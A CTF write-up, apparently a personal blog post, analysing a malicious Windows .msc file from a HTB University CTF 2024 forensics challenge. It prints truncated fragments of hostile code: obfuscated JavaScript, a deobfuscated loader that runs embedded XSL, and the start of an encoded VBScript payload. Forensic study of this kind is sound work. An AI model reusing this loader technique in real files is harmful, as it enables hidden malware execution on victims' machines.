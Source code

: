 ```yaml
---
layout: post
title: Binary Badresources Writeup
date: 2024-12-16 16:35 +1100
categories: [CTF-Writeup, Binary-Badlands]
tags: [forensics, ctf, htb-ctf]
---
```

This is a medium forensics challenge from the HTB University CTF 2024.

The challenge starts with us getting a `.msc` file, a type of file which may be used to configure aspects of Windows. The file is just XML, so we can examine it. After digging through the file we find what appears to be obfuscated javascript:

```javascript
          var _0x4ad86c=_0x53e0;(function(_0x4f7c4e,_0xd4182a){var _0x5504c4=_0x53e0,_0x1e159e=_0x4f7c4e();while(!![]){try{var 

<---- SNIP ---->
          _86c(0x235)+_0x4ad86c(0x1d0)+_0x4ad86c(0x158)+'3E'))),XML[_0x4ad86c(0x204)+_0x4ad86c(0x29d)](xsl);

```

We can paste the deobfuscated javascript into https://obf-io.deobfuscate.io/, which will give us:

```javascript
var scopeNamespace = external.Document.ScopeNamespace;
var rootNode = scopeNamespace.GetRoot();
var mainNode = scopeNamespace.GetChild(rootNode);
var docNode = scopeNamespace.GetNext(mainNode);
external.Document.ActiveView.ActiveScopeNode = docNode;
docObject = external.Document.ActiveView.ControlObject;
external.Document.ActiveView.ActiveScopeNode = mainNode;
docObject.async = false;
docObject.loadXML(unescape("%3C%3Fxml%20version%3D%271%2E0%27%3F%3E%0D%0A%3Cstylesheet%0D%0A%20%20%20%20xmlns%3D%22http%3A%2F%2Fwww%2Ew3%2Eorg%2F1999%2FXSL%2FTransform%22%20xmlns%3Ams%3D%22urn%3Aschemas%2Dmicrosoft%2Dcom%3Axslt%22%0D%0A%20%20%20%20xmlns%3Auser%3D%22placeholder%22%0D%0A%20%20%20%20version%3D%221%2E0%22%3E%0D%0A%20%20%20%20%3Coutput%20method%3D%22text%22%2F%3E%0D%0A%20%20%20%20%3Cms%3Asc
<---- SNIP ---->
vieq%24A%24Rsxlmrk%0EIrh%24Wyf%0E%22%2Ci%2C1%29%29%20%2D%20%285%29%20%2B%20%281%29%29%3ANext%3AExecute%20TpHCM%3A%0D%0A%20%20%20%20%5D%5D%3E%0D%0A%20%20%20%20%3C%2Fms%3Ascript%3E%0D%0A%3C%2Fstylesheet%3E"));
docObject.transformNode(docObject);
```

Let us take a look at what this XML is, which can be done by `console.log` ing the unescaped XML data:

```xml
<?xml version='1.0'?>
<stylesheet
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
    xmlns:user="placeholder"
    version="1.0">
    <output method="text"/>
    <ms:script implements-prefix="user" language="VBScript">
    <![CDATA[
TpHCM = "":for i = 1 to 3222: TpHCM = TpHCM + chr(Asc(mid("Stxmsr$I|tpmgmxHmq$sfnWlipp0$sfnJWS0$sfnLXXTHmq$wxvYVP50$wxvYVP60$wxvYVP70$wxvWls{jmpiYVPHmq$wxvHs{rpsehTexl50$wxvHs{rpsehTexl60$wxvHs{rpsehTexl70$wx
<---- SNIP ---->
```